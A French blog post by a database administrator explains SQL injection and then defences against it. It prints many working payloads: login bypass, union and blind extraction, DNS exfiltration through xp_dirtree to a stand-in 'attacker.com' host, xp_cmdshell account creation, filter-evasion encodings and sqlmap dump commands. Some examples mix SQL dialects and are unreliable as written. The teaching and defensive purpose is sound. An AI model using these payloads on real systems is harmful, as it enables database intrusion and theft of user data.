









# Anatomie d'une injection SQL : du concept à l'exploitation (avec du vrai code qui fait peur)

## Ou comment j'ai appris à respecter les paramètres préparés

Il y a quelque chose de profondément ironique dans le fait que je sois DBA et que j'aie passé des années à optimiser des requêtes SQL, pour finalement réaliser que les requêtes les plus dangereuses sont celles que je n'ai jamais écrites moi-même. Ce sont celles que les utilisateurs écrivent. À travers mes formulaires. Sans que je m'en rende compte.

La première fois que j'ai vraiment compris ce qu'était une injection SQL, ce n'était pas en lisant la documentation OWASP. C'était en regardant mes logs à 2h du matin et en réalisant que quelqu'un venait de dumper ma table Users. Avec une simple quote.

Bienvenue dans le monde merveilleux des injections SQL, où votre formulaire de connexion devient une porte d'entrée VIP pour votre base de données.

## Le concept : quand vos données deviennent du code

Une injection SQL, c'est quoi au fond ? C'est l'exploitation d'un principe simple : si vous construisez vos requêtes SQL en concaténant des chaînes de caractères, vous permettez à l'utilisateur de modifier la structure de votre requête.



Regardons un exemple classique qui me hante encore :

```sql
-- Code vulnérable (NE FAITES JAMAIS ÇA)
DECLARE @Username NVARCHAR(50) = 'admin';
DECLARE @Password NVARCHAR(50) = 'password123';
DECLARE @SQL NVARCHAR(500);

SET @SQL = 'SELECT * FROM Users WHERE Username = ''' + @Username + 
           ''' AND Password = ''' + @Password + '''';

EXEC sp_executesql @SQL;
```

Cette requête semble innocente. Elle l'est... jusqu'à ce que quelqu'un entre ça comme nom d'utilisateur :

```
admin' --
```

La requête devient :
```sql
SELECT * FROM Users WHERE Username = 'admin' --' AND Password = 'password123'
```

Le `--` commente le reste. Le mot de passe n'est plus vérifié. Bravo, vous venez de bypass l'authentification.

## Les types d'injections : une taxonomie du chaos

Il n'y a pas qu'une seule façon de casser une application SQL. Il y en a des dizaines. Voici les principales familles :



### 1. In-band : quand l'attaquant voit les résultats

C'est le scénario "facile" : l'attaquant injecte du code et voit directement les résultats dans la réponse de l'application.

#### Error-based : faire parler les erreurs

```sql
-- Input malveillant
' AND 1=CONVERT(INT, (SELECT TOP 1 table_name FROM information_schema.tables)) --

-- Résultat : message d'erreur révélant le nom de la table
-- "Conversion failed when converting the varchar value 'Users' to data type int"
```

L'application affiche l'erreur. L'attaquant apprend le nom de vos tables. Gratuit.

#### Union-based : fusion de résultats

```sql
-- Requête originale vulnérable
SELECT ProductName, Price FROM Products WHERE CategoryId = [INPUT]

-- Input : 1 UNION SELECT Username, Password FROM Users --
-- Requête finale :
SELECT ProductName, Price FROM Products WHERE CategoryId = 1 
UNION SELECT Username, Password FROM Users --
```

Résultat : votre liste de produits affiche maintenant... vos utilisateurs et leurs mots de passe.



### 2. Blind : quand l'application ne dit rien

Pas de message d'erreur. Pas de résultats affichés. Juste... le silence. Mais l'attaquant peut quand même extraire des données. Comment ?

#### Boolean-based : jouer avec vrai/faux

```sql
-- Test 1 : vérifier si l'injection fonctionne
' AND 1=1 --  
-- Si la page s'affiche normalement : vulnérable

-- Test 2 : extraire des données caractère par caractère
' AND SUBSTRING((SELECT TOP 1 Username FROM Users), 1, 1) = 'a' --
-- Si la page s'affiche : le premier caractère est 'a'
-- Sinon : essayer 'b', 'c', etc.
```

C'est lent. C'est fastidieux. Mais ça marche.



#### Time-based : quand le temps parle

Encore plus subtil : faire attendre la base de données.

```sql
-- Si la condition est vraie, attendre 5 secondes
' AND IF(SUBSTRING((SELECT TOP 1 Username FROM Users), 1, 1) = 'a', 
        WAITFOR DELAY '00:00:05', 0) --

-- Mesurer le temps de réponse :
-- 5 secondes = le premier caractère est 'a'
-- Immédiat = ce n'est pas 'a'
```

Oui, on peut extraire une base de données entière en mesurant des délais. Bienvenue dans l'enfer.

### 3. Out-of-band : exfiltration par canal secondaire

Quand même les techniques blind ne marchent pas, il reste une option : faire communiquer la base vers l'extérieur.

```sql
-- Exfiltration via DNS
DECLARE @data NVARCHAR(100);
SELECT @data = (SELECT TOP 1 Username FROM Users);
EXEC('master..xp_dirtree "\\' + @data + '.attacker.com\share"');

-- Le serveur SQL essaie de se connecter à : admin.attacker.com
-- L'attaquant surveille ses logs DNS et voit : "admin"
```



## Cas pratique : exploiter une vraie application

Imaginons une application de blog avec cette requête vulnérable :

```sql
-- Recherche d'articles
CREATE PROCEDURE sp_SearchArticles
    @SearchTerm NVARCHAR(100)
AS
BEGIN
    DECLARE @SQL NVARCHAR(500);
    SET @SQL = 'SELECT Title, Content, Author FROM Articles WHERE Title LIKE ''%' + 
                @SearchTerm + '%''';
    EXEC sp_executesql @SQL;
END;
```

### Phase 1 : détection

```sql
-- Input : test'
-- Erreur SQL retournée : vulnérable !

-- Input : test' --
-- Pas d'erreur : confirme la vulnérabilité
```

### Phase 2 : énumération de la structure

```sql
-- Découvrir le nombre de colonnes
' UNION SELECT NULL, NULL, NULL --  
-- Si ça marche : 3 colonnes

-- Découvrir les tables
' UNION SELECT table_name, NULL, NULL FROM information_schema.tables --

-- Résultat affiché dans la page :
-- Articles
-- Users
-- Comments
-- AdminLogs
```

### Phase 3 : extraction des données

```sql
-- Voir la structure de la table Users
' UNION SELECT column_name, data_type, NULL 
  FROM information_schema.columns 
  WHERE table_name = 'Users' --

-- Résultat :
-- UserId | int
-- Username | nvarchar
-- PasswordHash | varbinary
-- Email | nvarchar
-- IsAdmin | bit

-- Extraire les données
' UNION SELECT Username, Email, CONVERT(NVARCHAR(100), IsAdmin) 
  FROM Users --
```

### Phase 4 : escalade de privilèges

```sql
-- Si l'application tourne avec des droits élevés...
' ; EXEC sp_addsrvrolemember 'AttackerUser', 'sysadmin' --

-- Ou carrément :
' ; EXEC xp_cmdshell 'net user hacker P@ssw0rd /add' --
```



## Les techniques d'évasion : contourner les protections naïves

Vous avez bloqué les quotes ? On s'adapte.

### Encodage

```sql
-- Bloquer ' ? Utiliser CHAR
' AND 1=0 UNION SELECT NULL, CHAR(97,100,109,105,110), NULL --
-- CHAR(97,100,109,105,110) = 'admin'

-- Bloquer les espaces ? Utiliser des commentaires
'/**/UNION/**/SELECT/**/NULL--

-- Utiliser des tabulations
'	UNION	SELECT	NULL--
```

### Obfuscation

```sql
-- Multiples encodages
' UNION SELECT UNHEX(HEX('admin')) --

-- Casse mixte (si case-insensitive)
' UnIoN SeLeCt NULL --

-- Concaténation
' UNION SELECT 'ad'+'min' --
```

### Exploitation des fonctionnalités SQL

```sql
-- Utiliser les fonctions pour construire des requêtes
' ; DECLARE @q NVARCHAR(500); 
  SET @q = CHAR(83)+CHAR(69)+CHAR(76)+CHAR(69)+CHAR(67)+CHAR(84)+'...'; 
  EXEC(@q) --
```

## La défense : comment ne plus être vulnérable

Maintenant que vous avez peur (et vous devriez), voici comment vous protéger.

### Solution 1 : requêtes paramétrées (LA bonne méthode)

```sql
-- Code sécurisé avec paramètres
CREATE PROCEDURE sp_AuthenticateUser
    @Username NVARCHAR(50),
    @Password NVARCHAR(100)
AS
BEGIN
    SELECT UserId, Username, Email
    FROM Users
    WHERE Username = @Username  -- Paramètre, pas concaténation
    AND PasswordHash = HASHBYTES('SHA2_256', @Password);
END;
```

Côté application (exemple C#) :
```csharp
// CORRECT : paramètres
using (SqlCommand cmd = new SqlCommand("sp_AuthenticateUser", connection))
{
    cmd.CommandType = CommandType.StoredProcedure;
    cmd.Parameters.AddWithValue("@Username", username);
    cmd.Parameters.AddWithValue("@Password", password);
    // L'injection est impossible
}

// FAUX : concaténation
string query = "SELECT * FROM Users WHERE Username = '" + username + "'";
// Vulnérable aux injections
```



### Solution 2 : ORM avec paramètres

```csharp
// Entity Framework (sécurisé)
var user = context.Users
    .Where(u => u.Username == username && u.PasswordHash == hash)
    .FirstOrDefault();

// Génère automatiquement une requête paramétrée
```

### Solution 3 : validation et échappement (en complément)

```sql
-- Fonction de validation
CREATE FUNCTION dbo.IsValidUsername(@Username NVARCHAR(50))
RETURNS BIT
AS
BEGIN
    -- Autoriser seulement lettres, chiffres, underscore
    IF @Username LIKE '%[^a-zA-Z0-9_]%'
        RETURN 0;
    
    IF LEN(@Username) < 3 OR LEN(@Username) > 50
        RETURN 0;
    
    RETURN 1;
END;
GO

-- Utilisation
CREATE PROCEDURE sp_SearchUsers
    @SearchTerm NVARCHAR(50)
AS
BEGIN
    IF dbo.IsValidUsername(@SearchTerm) = 0
    BEGIN
        RAISERROR('Invalid search term', 16, 1);
        RETURN;
    END;
    
    -- Même avec validation, utiliser des paramètres
    SELECT UserId, Username, Email
    FROM Users
    WHERE Username LIKE '%' + @SearchTerm + '%';
END;
```

### Solution 4 : principe du moindre privilège

```sql
-- Créer un utilisateur applicatif avec droits limités
CREATE LOGIN AppUser WITH PASSWORD = 'SecureP@ssw0rd123!';
CREATE USER AppUser FOR LOGIN AppUser;

-- Donner UNIQUEMENT les permissions nécessaires
GRANT EXECUTE ON sp_AuthenticateUser TO AppUser;
GRANT EXECUTE ON sp_SearchArticles TO AppUser;
GRANT SELECT ON Articles TO AppUser;

-- REFUSER tout le reste
DENY DELETE ON Users TO AppUser;
DENY INSERT ON Users TO AppUser;
DENY UPDATE ON Users TO AppUser;

-- SURTOUT PAS de droits admin
-- DENY CONTROL SERVER TO AppUser; -- Redondant mais explicite
```

Même si l'injection réussit, l'attaquant ne peut rien faire de grave.

### Solution 5 : WAF et détection



Patterns à détecter :
- Mots-clés SQL : UNION, SELECT, INSERT, DROP, etc.
- Caractères suspects : ', --, /*, xp_, sp_
- Encodages multiples
- Temps de réponse anormaux (time-based)

## Le test : êtes-vous vulnérable ?

Checklist rapide pour tester vos applications :

### Test manuel basique

```sql
-- Dans chaque champ de formulaire, tester :
'
''
' OR '1'='1
' OR '1'='1' --
' OR '1'='1' /*
admin' --
admin' #
' UNION SELECT NULL--
' WAITFOR DELAY '00:00:05' --
```

Si l'application :
- Affiche une erreur SQL → Vulnérable
- Change de comportement avec ' OR '1'='1 → Vulnérable  
- Prend 5 secondes à répondre avec WAITFOR → Vulnérable

### Test avec sqlmap

```bash
# Outil automatisé d'exploitation
sqlmap -u "http://example.com/article?id=1" --batch --banner

# Options avancées
sqlmap -u "http://example.com/search" \
       --data "search=test" \
       --dbs \              # Lister les bases
       --tables \           # Lister les tables
       --dump \             # Extraire les données
       --technique=BEUSTQ   # Tous types d'injection
```

### Code review : patterns à chercher

```sql
-- DANGEREUX : rechercher dans votre code
EXEC sp_executesql + concaténation
EXEC('SELECT * FROM ' + @table)
'SELECT * FROM Users WHERE Id = ' + @userId

-- Également en code applicatif :
"SELECT * FROM " + tableName
$query = "SELECT * FROM Users WHERE Name = '$name'";
query := "SELECT * FROM Products WHERE Id = " + productId
```

## L'histoire vraie qui fait peur

Il y a quelques années, j'ai audité une application "sécurisée". Le développeur m'a assuré qu'il validait tous les inputs. Fier, il m'a montré son code :

```csharp
// "Sécurité" du développeur
string username = Request["username"].Replace("'", "''");
string query = "SELECT * FROM Users WHERE Username = '" + username + "'";
```

"Tu vois, je double les quotes, ça empêche l'injection !"

J'ai souri. Puis j'ai entré ça :

```
admin' AND 1=0 UNION SELECT table_name, NULL, NULL FROM information_schema.tables WHERE table_name LIKE 'Us%' AND ''='
```

Après le remplacement des quotes :
```sql
SELECT * FROM Users WHERE Username = 'admin'' AND 1=0 UNION SELECT table_name, NULL, NULL FROM information_schema.tables WHERE table_name LIKE ''Us%'' AND ''''=''
```

Échec. Il était malin. Mais pas assez. J'ai essayé avec des encodages :

```
admin' AND 1=CONVERT(INT, (SELECT CHAR(85)+CHAR(115)+CHAR(101)+CHAR(114)+CHAR(115))) --
```

Boom. Table Users affichée dans un message d'erreur.

Le développeur ne souriait plus. Moi non plus d'ailleurs.

## Les mythes à déconstruire

### Mythe 1 : "Mon ORM me protège automatiquement"

Faux si vous faites ça :
```csharp
// VULNÉRABLE même avec EF
string query = $"SELECT * FROM Users WHERE Name = '{name}'";
context.Users.FromSqlRaw(query);

// SÉCURISÉ
context.Users.FromSqlRaw("SELECT * FROM Users WHERE Name = {0}", name);
```

### Mythe 2 : "J'utilise des procédures stockées, je suis protégée"

Faux si vous concaténez dans la procédure :
```sql
-- TOUJOURS VULNÉRABLE
CREATE PROCEDURE sp_Search @Term NVARCHAR(100)
AS
    EXEC('SELECT * FROM Articles WHERE Title LIKE ''%' + @Term + '%''');
```

### Mythe 3 : "J'ai un firewall, ça suffit"

Un WAF est une couche supplémentaire, pas une solution magique. Les techniques d'évasion existent.

### Mythe 4 : "NoSQL = pas d'injection SQL"

Il y a des injections NoSQL aussi. MongoDB, par exemple :
```javascript
// Vulnérable
db.users.find({ username: username, password: password });

// Si username = { $ne: null }, on bypass l'authentification
```

## La défense en profondeur

Une stratégie complète combine plusieurs couches :



Chaque couche peut échouer, mais ensemble, elles rendent l'exploitation très difficile.

## Que faire si vous êtes compromis

Si vous découvrez une injection active :

1. **Isoler immédiatement** : couper l'accès à la base
2. **Analyser les logs** : que s'est-il passé ?
3. **Identifier l'étendue** : quelles données ont été consultées/modifiées ?
4. **Corriger la vulnérabilité** : paramètres partout
5. **Changer tous les secrets** : mots de passe, clés API, tokens
6. **Notifier** : selon la loi (RGPD en Europe), vous devez informer les utilisateurs
7. **Post-mortem** : comment ça a pu arriver ? Comment l'éviter ?

## Ce qu'il faut retenir

L'injection SQL reste dans le Top 3 des vulnérabilités les plus critiques. En 2025. Malgré des décennies de sensibilisation.

Trois règles simples :

1. **Paramètres, toujours** : jamais de concaténation pour construire des requêtes
2. **Principe du moindre privilège** : votre application n'a pas besoin de droits sysadmin
3. **Validation défensive** : même avec des paramètres, validez les inputs

Et une règle bonus pour les DBA : regardez vos logs. Vraiment. Ces tentatives d'injection laissent des traces. Si vous voyez des `' OR 1=1--` dans vos logs, quelqu'un teste vos défenses.

## Pour aller plus loin

- OWASP SQL Injection Guide
- sqlmap documentation
- PortSwigger Web Security Academy
- HackTheBox / TryHackMe pour pratiquer légalement

## Conclusion

Quand j'ai commencé comme DBA, je pensais que mon job était d'optimiser les requêtes et de maintenir les sauvegardes. Puis j'ai découvert que mon vrai job était aussi de protéger les données contre des attaquants créatifs qui transforment mes formulaires en consoles SQL.

L'injection SQL, c'est élégant dans sa simplicité et terrifiant dans son efficacité. Une simple quote mal gérée peut exposer toute votre base de données.

La bonne nouvelle ? C'est complètement évitable. Les paramètres SQL existent depuis des décennies. Les ORM gèrent ça automatiquement. Il n'y a aucune excuse en 2025 pour être vulnérable à l'injection SQL.

Et pourtant, je continue à trouver des bases de données compromises parce que quelqu'un, quelque part, a fait un `"SELECT * FROM Users WHERE Id = " + userId`.

Ne soyez pas cette personne.

---

*PS : Si vous voulez tester vos compétences, créez un environnement local isolé et pratiquez. Ne testez JAMAIS sur des applications en production sans autorisation écrite. C'est illégal et vous finirez en prison.*

*PPS : Oui, j'ai vraiment vu du EXEC('DROP TABLE ' + @TableName) dans du code de production. Non, je ne plaisante pas. Oui, j'ai pleuré.*
